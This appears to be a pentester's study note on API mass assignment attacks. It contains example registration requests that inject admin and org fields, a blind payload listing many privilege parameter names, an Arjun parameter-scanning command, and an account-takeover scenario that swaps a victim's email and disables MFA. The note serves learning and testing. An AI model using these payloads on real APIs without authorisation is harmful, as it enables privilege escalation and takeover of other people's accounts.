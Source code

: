### What it is
Mass Assignment attack is when a user is able to send a request that overwrites server-side variables, if an api accept user input without sanitazing it, an attacker might be able to change things that he's not supposed to access to. >
### Look for
One of the most common scenearios where exploit this is where the request process and accepts the user input. That's why is very common in the registration process: the end user would fill in standard fields with information such as their desired username, email address, phone number, and account password.
For example if i got this request when i create an account
```http
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"password":"Password1!"
}
```
And i could upgrade it to an admin account as a Mass Assignment attack:
```http
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"admin": true,
"password":"Password1!"
}
```
Another example is to gain unauthorized access to other organizations, in this example you got a "org" propertie that it could allow you to access company secrets
```HTTP
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"org": "§CompanyA§",
"password":"Password1!"
}
```
##### Remember to
Do not only test for Mass Assignment on the registration panel. Test other endpoints used for resetting passwords; updating account, group, or company profiles; and any other plays where you may be able to assign yourself additional access.

------
### How to find it
So at this point we might say "*mass assignment atack it's all about api parameters*", but this parameters my be inconsistent, which it mean **variability in parameter usage may differ across different API endpoints**.
	For example, a user creation endpoint might use `isAdmin`, while a user update endpoint uses `adminStatus` for the same functionality.
#### Fuzzing parametes
As the parameters assuming certain endpoint may change, we'll need to intercept many different endpoints as we can, **for example** you find this 
```http
POST /create/user
--snip--
{
"username": "hapi_hacker"
"pass": "ff7ftw",
"uam": 1,
"mfa": true,
"account": 101
}
```
When you don’t understand the purpose of a certain parameter, it’s time to put on your lab coat and experiment. Try fuzzing by setting uam to zero, mfa to false, and account to every number between 0 and 101, and then watch how the provider responds.

##### Blind Mass Assignment Attack
If we're not able to find those parameter then we could check much differents parameter at once, any vulnerable target will discard the parameters that it doesn't use so we will check for that is causing an anomolous response
```http
POST /api/v1/register
--snip--
{
"username":"hAPI_hacker",
"email":"hapi@hacker.com",
"admin": true,
"admin":1,
"isadmin": true,
"role":"admin",
"role":"administrator",
"user_priv": "admin",
"password":"Password1!"
}
```
##### Scaning for parameters
Arjun is an automated tool that send a tons of request and based on deviations of response lengths and response codes will be discarding parameters until keep ones. As the request are too much requests remember that if you run into issues with all of that rate limiting thing, you can use the Arjun `—stable` option to slow down the scans
```sh
arjun --headers "Content-Type: application/json]" -u http://vulnhost.com/api/register -m JSON --include='{$arjun$}'
```
*-u* it's for de URL
*-m* specifies the format from the request
*--include* identified the exact attack spot that Arjun should test with `$arjun$`
If you got repsonses as the 400 range, such as 400 Bad Request, 401 Unauthorized, or 413 Payload
Too Large

------

#### BFLA and Mass Assignment Attack
Let's see the following **example**:
Ash finds this endpoint `/api/v1/account/update` which allows him to update users accounts, after exlpore harder he notices that other endpoints have parameters such as `email` and `mfa` (multifactor authentication). So:
- Ash crafts a request using the `PUT /api/v1/account/update` endpoint to:
	- Change Brock’s email address to his own (`ash@email.com`).
	- Disable MFA (`"mfa": false`), making the account easier to access without two-factor verification.
	- By changing the email from an account, the damned ash also could use the `/api/v1/account/reset` to reset the password by sending an mail to the email that he has changed

-----
### Summary
If thre's an unsanitized endpoint, which allows you to update sensitive data you have find a serious case